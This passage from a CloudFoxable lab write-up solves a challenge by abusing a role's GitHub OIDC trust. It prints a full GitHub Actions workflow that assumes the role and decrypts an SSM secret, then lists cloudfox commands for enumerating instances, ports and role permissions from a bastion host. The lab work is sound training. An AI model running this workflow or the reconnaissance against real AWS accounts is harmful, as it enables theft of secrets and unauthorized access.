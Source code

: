 Role trusts lists role `t_rodman` with trust established for the repo we created. Looking at `t_rodman` via gaad-analysis &rarr;

```bash
cat cloudfoxable-gaad.json | jq '.RoleDetailList[] | select(.RoleName=="t_rodman")'
# this gave an attached policy called trust-me
cat cloudfoxable-gaad.json | jq '.Policies[] | select(.PolicyName=="trust-me")'
```

This shows that a GitHub Action can be used to authenticate as `t_rodman` via `sts:AssumeRoleWithWebIdentity` from the repo in concern. Also, the role can get SSM parameters `trust-*`. With a little googling, this can be done via an action published by AWS. In the repo, a workflow can be set up as follows &rarr;

```yml
name: cloudfoxableattack
on:
  push:
    branches: [ main ]
permissions:
  id-token: write
  contents: read
jobs:
  AssumeRole:
    runs-on: ubuntu-latest
    steps:
      - name: clone repo
        uses: actions/checkout@v3
      - name: set creds
        uses: aws-actions/configure-aws-credentials@v2
        with:
          role-to-assume: arn:aws:iam::<ACCID>:role/t_rodman
          aws-region: us-west-2
      - name: perform action
        run: |
          aws --region us-west-2 ssm get-parameter --with-decryption --name trust-me
```

Committing this to the repo runs the actions and the parameter value can be see in the Action logs, which is also the flag.

## Wyatt

This challenge starts with the bastion host from previous challenges, to provide an internal foothold. It needs us to scan for services in the VPC and figure out next steps to get a flag.

To start, it's best to scan for network-related items, ENIs, and instances (given we're in a network). That gives an idea about the roles granted to the instances, so those roles can analyzed for permissions, which provides further hints into the type of services to look into. The following commands helped narrow down to objects of interest &rarr;

```bash
cloudfox aws elastic-network-interfaces -p cloudfoxable -v2 # instances are of primary interest
cloudfox aws network-ports -p cloudfoxable -v2 # shows open ports based on SGs for instances (IPs)
cloudfox aws instances -p cloudfoxable -v2 # shows the instances and associated roles (get role/wyatt)
cloudfox aws permissions --principal wyatt -p cloudfoxable -v2 # check permissions of wyatt
```
